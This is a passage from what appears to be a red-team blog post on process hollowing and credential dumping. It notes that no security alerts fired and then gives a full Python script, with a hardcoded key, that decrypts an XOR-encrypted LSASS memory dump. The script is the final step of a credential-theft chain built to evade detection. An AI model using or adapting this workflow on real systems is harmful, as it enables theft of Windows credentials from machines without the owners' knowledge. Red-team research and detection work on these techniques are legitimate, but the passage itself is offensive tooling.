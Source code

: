 
![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020230913171829.png)

Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/NtProccesHollow/Images/Pasted%20image%2020230823180840.png)

Finally, retrieve and decrypt the LSASS dump using a standard XOR decrypting python routine such as below.

*NOTE: decryptor.py can be found in the `/decrypt` folder on GitHub.*

```
import sys
from itertools import cycle

key = bytearray("ripLs4SS123","utf8")
filename = "DECRYPTED.DMP"

try:
    data = bytearray(open(sys.argv[1], "rb").read())
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

if len(sys.argv) > 2 and sys.argv[2] == "1":
    print("len: {}".format(len(data)))
    print('{ 0x' + ', 0x'.join(hex(x)[2:] for x in data) + ' };')
    sys.exit()
xord_byte_array = bytearray(len(data))
if len(sys.argv) > 2 and sys.argv[2] != "1":
    filename = sys.argv[2]

f = open(filename, "wb")

l = len(key)
for i in range(len(data)):
    current = data[i]
    current_key = key[i % len(key)]
    xord_byte_array[i] = current ^ current_key

f.write(xord_byte_array)
f.close()

print("XORed output saved to \"{}\"".format(filename))
```